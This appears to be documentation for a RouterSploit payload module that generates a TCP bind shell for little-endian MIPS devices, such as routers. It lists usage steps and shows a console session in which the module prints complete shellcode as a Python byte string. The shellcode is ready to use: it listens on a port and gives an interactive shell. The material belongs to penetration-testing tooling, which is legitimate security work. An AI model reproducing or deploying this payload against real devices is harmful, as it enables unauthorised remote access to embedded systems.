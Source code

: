 ## Description

Module generates payload that creates interactive tcp bind shell for MIPSLE architecture.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/mipsle/bind_tcp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates mipsle bind shell tcp payload

## Scenarios

```
rsf > use payloads/mipsle/bind_tcp
rsf (MIPSLE Bind TCP) > set rport 4321
[+] rport => 4321
rsf (MIPSLE Bind TCP) > run
[*] Running module...
[*] Generating payload
[+] Building payload for python
payload = (
    "\xe0\xff\xbd\x27\xfd\xff\x0e\x24\x27\x20\xc0\x01\x27\x28\xc0"
    "\x01\xff\xff\x06\x28\x57\x10\x02\x24\x0c\x01\x01\x01\xff\xff"
    "\x50\x30\xef\xff\x0e\x24\x27\x70\xc0\x01\x10\xe1\x0d\x24\x04"
    "\x68\xcd\x01\xfd\xff\x0e\x24\x27\x70\xc0\x01\x25\x68\xae\x01"
    "\xe0\xff\xad\xaf\xe4\xff\xa0\xaf\xe8\xff\xa0\xaf\xec\xff\xa0"
    "\xaf\x25\x20\x10\x02\xef\xff\x0e\x24\x27\x30\xc0\x01\xe0\xff"
    "\xa5\x23\x49\x10\x02\x24\x0c\x01\x01\x01\x25\x20\x10\x02\x01"
    "\x01\x05\x24\x4e\x10\x02\x24\x0c\x01\x01\x01\x25\x20\x10\x02"
    "\xff\xff\x05\x28\xff\xff\x06\x28\x48\x10\x02\x24\x0c\x01\x01"
    "\x01\xff\xff\xa2\xaf\xfd\xff\x11\x24\x27\x88\x20\x02\xff\xff"
    "\xa4\x8f\x21\x28\x20\x02\xdf\x0f\x02\x24\x0c\x01\x01\x01\xff"
    "\xff\x10\x24\xff\xff\x31\x22\xfa\xff\x30\x16\xff\xff\x06\x28"
    "\x62\x69\x0f\x3c\x2f\x2f\xef\x35\xec\xff\xaf\xaf\x73\x68\x0e"
    "\x3c\x6e\x2f\xce\x35\xf0\xff\xae\xaf\xf4\xff\xa0\xaf\xec\xff"
    "\xa4\x27\xf8\xff\xa4\xaf\xfc\xff\xa0\xaf\xf8\xff\xa5\x27\xab"
    "\x0f\x02\x24\x0c\x01\x01\x01"
)
```
